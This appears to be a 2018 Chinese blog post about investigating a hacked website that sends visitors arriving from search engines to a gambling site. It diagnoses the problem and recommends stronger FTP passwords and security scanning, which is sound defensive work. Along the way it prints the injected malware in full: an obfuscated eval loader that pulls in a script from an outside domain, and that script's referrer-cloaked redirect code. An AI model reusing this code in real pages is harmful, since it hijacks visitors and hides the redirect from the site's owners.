 ## 记一次站点被挂马问题排查

---
起因，在下班准备回家之际，收到几条朋友发来的信息，说他的网站在百度搜索做信息流广告推广，但是从百度搜索点击打开就会跳转的博彩网站，让我帮忙排查下问题，是不是被挂马了，于是乎就开始了后面的故事

---
> 为了保护网站隐私，假定网站地址是：http://www.xxx.com

收到消息后我尝试操作并收集到下面现象内容：

现象1：通过域名直接打开网站，可以正常打开，不会跳转到博彩站    
现象2：通过百度/搜狗搜索引擎，搜索到网站后点击打开就会跳转到博彩站

---











#### 开始排查 

* **网站是怎么跳转的？** 

网站跳转无非就是这两种：服务端重定向跳转/前端JS触发跳转，我开始用Charles抓包，列出抓包请求发起顺序大概是这样的（省略无关的请求）：

1. http://www.xxx.com
2. https://www.cpdas8.com/cxc.js
3. https://www.das8cx.com/ [博彩站]

先打开站点www.xxx.com返回Code=200，不是服务端重定向Code=302，是由前端发起跳转，并且注意到：cxc.js，请求头Referer=www.xxx.com，这个并非站点前端开发需要引入的脚本，打开地址看代码如下：


```javascript

(function () {
    /*百度推送代码*/
     var bp = document.createElement('script');
     bp.src = '//push.zhanzhang.baidu.com/push.js';
     var s = document.getElementsByTagName("script")[0];
     s.parentNode.insertBefore(bp, s);
     /*360推送代码*/
     var src = document.location.protocol + '//js.passport.qihucdn.com/11.0.1.js?8113138f123429f4e46184e7146e43d9';
     document.write('<script src="' + src + '" id="sozz"><\/script>');
     })();

document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln("if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )");
document.writeln("location.href=\"https://www.das8cx.com/\";");
document.writeln("</script>");

```

看代码就知道抓到了元凶，这里执行了location.href到博彩站，但是看主页html源码里并没有cxc.js的引入，继续后面的排查

---

* **cxc.js是如何在主页里引入的？**

带着这个疑问，打开了首页源码，大概过了下，没有发现引入脚本的地方，就开始怀疑是不是动态引入的，再次查看源码，看到一段被混淆加密压缩过代码：
```javascript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('l["\\d\\e\\1\\m\\j\\8\\n\\0"]["\\6\\4\\9\\0\\8"](\'\\i\\2\\1\\4\\9\\3\\0 \\0\\k\\3\\8\\c\\7\\0\\8\\h\\0\\5\\f\\b\\q\\b\\2\\1\\4\\9\\3\\0\\7 \\2\\4\\1\\c\\7\\o\\0\\0\\3\\2\\p\\5\\5\\6\\6\\6\\a\\1\\3\\d\\b\\2\\r\\a\\1\\e\\j\\5\\1\\h\\1\\a\\f\\2\\7\\g\\i\\5\\2\\1\\4\\9\\3\\0\\g\');',28,28,'x74|x63|x73|x70|x72|x2f|x77|x22|x65|x69|x2e|x61|x3d|x64|x6f|x6a|x3e|x78|x3c|x6d|x79|window|x75|x6e|x68|x3a|x76|x38'.split('|'),0,{}))
```
感觉事蹊跷，不管三七二十一先到谷歌开发者工具控制台里执行看看，截取重要提示信息：
```
A parser-blocking, cross site (i.e. different eTLD+1) script,https://www.cpdas8.com/cxc.js, is invoked via document.write

```
![image](https://sflaqiu.github.io/imgs/mm_tz.png)

明了了，就是这段脚本把cxc.js动态的引入到站点里，现在跳转的原因是找到了，但是为啥会好端端的多了这段代码，继续后面的分析

---

* **为什么主页源码会被篡改加入了一段脚本呢？**

站点是通过阿里云服务器的虚拟空间进行部署的，服务器本身应该没有问题
目前猜测有两种可能性：
1. FTP暴力破解，成功连接上FTP后进行篡改
2. 站点安全漏洞，被上传了木马程序后被执行，篡改了源码

后面问了下FTP密码是设置的挺简单的，所以评估可能是FTP暴力破解导致，细思极恐

---
番外，里面还有段篡改SEO关键词代码，这里也需要去掉：   
篡改了keyword/description/title
![image](https://sflaqiu.github.io/imgs/mm_seo.png?v=666)

---

#### 问题总结：

通过抓包和代码分析可以知道跳转到博彩站的流程是这样的：
1. 打开首页，脚本执行了evel(混淆加密压缩)，动态引入cxc.js
2. 引入的cxc.js里执行了(function (){/* 跳转逻辑 */})()，如果站点referrer是搜索引擎过来的就跳转到博彩站，不是就不做跳转直接正常打开站点
3. 知道原理后就很清晰明白上面现象的原因，并且可以很清楚的怎么去修复

站点源码被侵入篡改问题：

* 站点的开发需要注意WEB安全问题，文件上传漏洞，脚本注入，SQL注入，跨站攻击，等
* 站点的服务器/FTP/后台账号密码，不要设置的太随意，要有一定的复杂度，不然很容易被暴力破解

---
辅助手段-网站安全检测：
* [华为漏洞扫描服务](https://www.huaweicloud.com/product/vss.html)
* [360网站安全](http://webscan.360.cn/)
* [百度网站体检](https://ziyuan.baidu.com/safe/)
* [百度云观测](http://ce.baidu.com/index/guance)


---
> 发布时间：2018-09-13